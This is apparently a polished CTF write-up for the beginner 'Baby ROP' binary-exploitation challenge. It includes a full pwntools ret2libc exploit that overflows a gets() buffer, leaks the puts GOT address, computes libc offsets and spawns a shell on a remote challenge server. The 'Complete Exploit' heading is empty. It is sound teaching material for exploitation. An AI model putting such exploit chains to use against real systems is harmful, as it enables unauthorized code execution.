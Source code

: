 Excellent writeup for the "Baby ROP" challenge! Here's a polished version with some corrections and additional explanations:

## Challenge: Baby ROP
**Type:** Pwn/Binary Exploitation  
**Difficulty:** Beginner  
**Environment:** Ubuntu 20.04

### Initial Analysis
We're given a binary `pwn_baby_rop` that prompts for input. Basic interaction shows no obvious functionality, so we analyze it with Ghidra.

### Vulnerability Discovery
Ghidra reveals the use of the unsafe `gets()` function for input handling. This creates a classic buffer overflow vulnerability that we can exploit with a ret2libc attack.

### Exploitation Strategy: Two-Stage ret2libc

#### Stage 1: Libc Address Leak
Since ASLR randomizes libc addresses, we first need to leak a known function address from the Global Offset Table (GOT).

```python
from pwn import *

# Setup
env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
io = remote("34.159.211.30", 32627)
# io = process("./pwn_baby_rop", env=env)  # For local testing

io.recvuntil("black magic.\n")

# ROP gadgets and addresses
pop_rdi = 0x00401663  # pop rdi; ret
puts_got = 0x404018   # puts GOT entry
puts_plt = 0x401060   # puts PLT entry
main = 0x40145C       # main function address

# Stage 1: Leak puts address from libc
payload = b"A" * 256  # Buffer overflow padding
payload += b"B" * 8   # RBP overwrite
payload += p64(pop_rdi)    # Set up argument
payload += p64(puts_got)   # Address to leak (puts GOT)
payload += p64(puts_plt)   # Call puts to print the address
payload += p64(main)       # Return to main for second stage

io.sendline(payload)

# Parse the leaked address
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("Leaked puts address: " + hex(puts_addr))
```

#### Stage 2: Libc Database Lookup and System Call
Using the leaked puts address, we identify the libc version through libc database searches. The offsets help us calculate other function addresses.

```python
# Libc offsets (found via libc database)
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset = 0x1b75aa

# Calculate addresses
libc_base = puts_addr - puts_offset
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset

log.info("Libc base: " + hex(libc_base))
log.info("System address: " + hex(system_addr))
log.info("/bin/sh address: " + hex(bin_sh_addr))

# Stage 2: Call system("/bin/sh")
simple_ret = 0x0040101a  # ret gadget for stack alignment

payload = b"A" * 256     # Buffer overflow
payload += b"B" * 8      # RBP overwrite
payload += p64(pop_rdi)  # Setup argument register
payload += p64(bin_sh_addr)  # "/bin/sh" string address
payload += p64(simple_ret)   # Stack alignment
payload += p64(system_addr)  # Call system()

io.sendline(payload)
io.interactive()  # Get shell access
```

### Complete Exploit### Key Learning Points:

1. **Buffer Overflow Basics**: Using `gets()` creates predictable overflow conditions
2. **ret2libc Technique**: Bypassing NX bit by reusing existing libc functions
3. **Address Leaking**: Using GOT/PLT to leak randomized addresses
4. **ROP Chains**: Chaining gadgets to control program execution
5. **Stack Alignment**: Modern systems require 16-byte stack alignment for some functions
6. **Libc Database**: Using leaked addresses to identify exact libc version

### Tools Used:
- **Ghidra**: Static analysis and reverse engineering
- **pwntools**: Exploit development framework
- **ROPgadget**: Finding ROP gadgets
- **Libc database**: Identifying libc version from leaked addresses

### Mitigation Bypassed:
- **NX bit**: Executed existing code instead of injecting shellcode
- **ASLR**: Leaked addresses to calculate randomized locations

This is a classic introduction to modern binary exploitation techniques!